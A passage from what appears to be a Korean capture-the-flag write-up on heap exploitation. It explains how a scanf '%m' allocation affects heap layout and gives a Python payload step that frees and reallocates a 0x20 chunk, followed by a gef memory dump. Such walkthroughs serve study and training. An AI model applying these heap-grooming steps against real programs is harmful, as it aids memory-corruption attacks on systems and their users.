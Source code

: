 ``` c

    printf("input value: ");
    scanf("%70m[^\n]%*c", &buf);
    if(!buf){
      getchar();
      return -1;
    }
    ...
    str_t *str = (str_t*)malloc(sizeof(str_t));
    if(!str){
      free(buf);
      return -1;
    }
    str->size = strlen(buf);
    str->content = buf;
    buf = NULL;

    data->type = TYPE_STRING;
    data->p_str = str;
fin:
    free(buf);
  }
  return 0;
}
```
`scanf()`를 보면 특이한 formatter를 사용하는데, `m`은 GNU 확장 기능 중 하나로 heap 메모리를 할당하여 입력값을 저장한다.

자세히 보면 `buf`에 입력을 받은 다음 주소를 `str->content`에 넣어놓고 `free()`시키는데, 어차피 `buf`가 `NULL`로 초기화되기 때문에 아무런 해제가 일어나지는 않는다.

어찌됐건 `scanf()`를 할 때 `70`바이트를 입력받기 위해 메모리를 할당하고, 입력값을 저장한 뒤 나머지 메모리는 해제하는 동작을 수행한다.

이 과정에서 heap을 사용하기 때문에 `str_t`보다 `buf`가 먼저 할당되어 인접한 영역에 `[0, 2, 0]`이 할당되지 않는다.

따라서 `str_t`의 chunk size와 동일한 크기를 가지는 chunk를 해제해두고 `create()`를 호출하도록 payload를 작성해야한다.

이를 위해 heap leak 과정에서 `[0, 1]->count`를 overwrite할 때 chunk size가 0x20이 되도록 `arr_t->count`가 `1`인 객체를 `[0, 0, 4]`에 생성하였다.
``` python
    # free [0, 0, 4] (0x20 chunk) and reallocate it to [0, 2, 0] (str_t, also 0x20)
    edit(s, 'd', [0, 0, 4])
    edit(s, 'u', [0, 2, 0], 'v', "A" * 0x30)
    edit(s, 'u', [0, 2, 1], 'v', "B" * 0x10)
    edit(s, 'u', [0, 2, 2], 'v', "C" * 0x10)
```
이렇게 payload를 작성한 뒤 메모리를 보면 다음과 같다.
``` bash
gef➤  x/10gx 0x0000555555559420
0x555555559420: 0x0000000000000004      0x0000000000000000      # [0, 3]
0x555555559430: 0x0000000000000000      0x0000000000000000
0x555555559440: 0x0000000000000000      0x0000000000000000
0x555555559450: 0x0000000000000000      0x0000000000000000
0x555555559460: 0x0000000000000000      0x0000000000000021
gef➤
0x555555559470: 0x0000000000000010      0x0000555555559490      # [0, 2, 0] ; "AAAA"
0x555555559480: 0x0000000000000000      0x0000000000000021
0x555555559490: 0x4141414141414141      0x4141414141414141      # [0, 2, 0]->content
0x5555555594a0: 0x0000000000000000      0x0000000000000051
0x5555555594b0: 0x0000000555555559      0x5d50bdc37f682be0      # leftover buf
gef➤
0x5555555594c0: 0x0000000000000000      0x0000000000000000
0x5555555594d0: 0x0000000000000000      0x0000000000000000
0x5555555594e0: 0x0000000000000000      0x0000000000000000
0x5555555594f0: 0x0000000000000000      0x0000000000000021
0x555555559500: 0x4242424242424242      0x4242424242424242      # [0, 2, 1]->content
```